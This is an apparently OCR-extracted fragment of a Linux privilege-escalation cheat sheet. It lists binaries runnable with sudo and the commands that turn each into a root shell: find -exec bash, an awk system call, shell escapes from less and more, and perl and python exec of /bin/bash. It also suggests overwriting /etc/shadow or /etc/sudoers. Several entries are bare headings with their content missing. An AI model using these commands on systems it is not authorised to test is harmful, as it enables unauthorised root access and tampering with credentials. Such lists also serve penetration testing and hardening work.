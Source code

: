 `cp`  
Copy and overwrite /etc/shadow

`find`

```bash
sudo find / -exec bash -i \;

find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```

`ht`

The text/binary-editor HT.

`less`

From less you can go into vi, and then into a shell.

```text
sudo less /etc/shadow
v
:shell
```

`more`

You need to run more on a file that is bigger than your screen.

```text
sudo more /home/pelle/myfile
!/bin/bash
```

`mv`

Overwrite `/etc/shadow` or `/etc/sudoers`

`man`

`nano`

`nc`

`nmap`

`python/perl/ruby/lua/etc`

```text
sudo perl
exec "/bin/bash";
ctr-d
```

```text
sudo python
import os
os.system("/bin/bash")
```

`sh`

`tcpdump`
